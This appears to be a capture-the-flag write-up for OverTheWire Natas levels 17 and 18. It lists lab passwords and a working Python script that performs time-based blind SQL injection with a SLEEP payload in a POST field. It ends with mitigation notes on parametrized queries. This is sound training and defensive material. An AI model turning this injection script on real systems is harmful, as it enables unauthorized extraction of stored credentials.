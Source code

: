 ### Natas 17

#### Credentials
Password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

#### How you passed the challenge
1) Similar to Natas 15, I used brute force blind SQL injection to get the password
2) First I tried sleeping, but soon realized that I needed to POST the data instead of GET for the SQL to be properly injected
3) In the script, I tell the query to sleep for 15 seconds and give the request a timeout of 2 seconds
4) If the request throws a timeout exception, then the current character is part of the password

```natas17.py```
```py
import requests

alnums = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890"
passwd = ""
auth = ('natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw')

for i in range(len(auth[1])):
    for char in alnums:
        data = {
            "username": f'natas18" AND password LIKE BINARY "{passwd}{char}%" AND SLEEP(15) #'}
        # print(data["username"])
        try:
            req = requests.post(f'http://natas17.natas.labs.overthewire.org/index.php',
                                auth=auth, data=data, timeout=2
                                )
        except requests.exceptions.Timeout:
            passwd += char
            print("Passwd", passwd)
            break

print("Final Passwd", passwd)
```

#### What sins are evidenced in this challenge
Sin #1, Sin #12

#### How could those sins be mitigated
Don't trust user input
Use parametrized queries


---
### Natas 18

#### Credentials
Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs
